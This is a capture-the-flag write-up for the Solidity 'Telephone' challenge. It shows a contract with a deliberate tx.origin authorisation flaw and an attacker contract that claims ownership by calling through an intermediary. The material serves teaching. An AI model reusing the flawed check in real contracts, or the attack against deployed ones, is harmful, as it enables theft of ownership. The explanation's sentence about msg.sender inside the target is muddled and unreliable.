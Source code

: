 # 04. Telephone

Claim ownership of the contract to win the challenge.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

The above contract is fairly simple as long as the distinction between tx.origin and msg.sender is understood.

tx.origin is the External Owned Account address that triggered the whole call chain.
msg.sender is the address of the function caller.

So in order to claim ownership we must send our address as parameter to the changeOwner function through an intermediary.

Let's build a simple smart contract to do so :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ClaimOwnership {
    
    address targetContract;
    
    constructor(address _targetContract) {
        targetContract = _targetContract;
    }
    
    function attack(address _owner) public returns (bool) {
        (bool success, bytes memory rvalue) = targetContract.call(abi.encodeWithSignature("changeOwner(address)", _owner));
        return success;
    }
}
```

This simple contract should be deployed with the target contract address as a constructor parameter.
Then it is as simple as calling the attack function with your personal address passed as parameter.
Internally, the contract will call the changeOwner function from the targetContract and claim ownership.

## Explanation

Your account address (A) initiates the transaction and is therefore tx.origin.
Our ClaimOwnership contract (B) reacts to (A) and calls the target contract (C), while inside B tx.origin and msg.sender are both A
but inside C msg.sender is not B since the direct caller of C is B which is different from tx.origin and therefore claims ownership.